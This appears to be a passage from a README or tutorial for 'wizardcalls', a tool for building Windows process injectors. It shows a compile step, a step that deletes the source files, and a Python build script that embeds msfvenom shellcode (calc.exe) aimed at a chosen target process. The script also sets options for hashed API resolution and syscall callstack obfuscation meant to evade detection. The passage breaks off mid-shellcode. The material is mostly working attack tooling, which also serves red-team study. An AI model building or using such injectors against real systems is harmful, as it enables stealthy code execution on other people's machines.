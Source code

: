 ## Step 7; Compiling the injector
It's time to compile the injector. This will be done by running the compiler script with the subprocess module.
```py
if subprocess.run( ['cmd.exe', '/c', 'compile.bat' ], check=False, capture_output=True ).returncode != 0:
    assert "Failed to compile the source code."
```

## Step 8; Cleanup
Finally, it's time to remove all of the source code files to keep things clean.
```py
os.remove(wizard.asm_source.filename)
os.remove(wizard.source.filename)
os.remove(wizard.header.filename)
os.remove('compile.bat')
os.remove('main.c')
os.remove('wizardcalls.obj')
os.remove('wizardcalls.x64.obj')
os.remove('main.obj')
```

# Final Script
At this point, we've completed the script. Below is an example script using the components explained above. This is a basic script which takes various arguments from the user & compiles the injector based on those arguments. This demonstrates how wizardcalls can be used in a script which compiles another software dependant on wizardcalls.

```py
import os
import subprocess
import argparse
import random
from wizardcalls import WizardCalls

if __name__ == "__main__":
    parser = argparse.ArgumentParser()
    parser.add_argument('-o', '--outfile', help='A name for the compiled executable.', default='skynet.exe')
    parser.add_argument('-t', '--target', help='A target process name to inject to. (case sensitive)', default='notepad.exe')
    parser.add_argument('-a', '--algo', help='A hashing algorithm for dynamic api resolution', choices=['djb2', 'sdbm'], default='djb2')
    parser.add_argument('-r', '--random_jump', help='Jump to a random syscall isntruction address when executing the syscall for callstack obfuscation', default=False)
    parser.add_argument('-d', '--debug', help='enable debug statements for wizardcalls', default=False)
    args = parser.parse_args()

    main_source = fr"""# define _CRT_SECURE_NO_WARNINGS
# include "wizardcalls.h"
# include <winternl.h>
# include <stdio.h>

# define STATUS_INFO_LENGTH_MISMATCH 0xC0000004
# define SUCCESS 0x0

# define TARGET_PROCESS L"{args.target}"

/* msfvenom -p windows/x64/exec cmd=calc.exe exitfunc=thread */
unsigned char shellcode[] = {{
	0xfc, 0x48, 0x83, 0xe4, 0xf0, 0xe8, 0xc0, 0x00, 0x00, 0x00, 0x41, 0x51, 0x41, 0x50, 0x52, 0x51,
```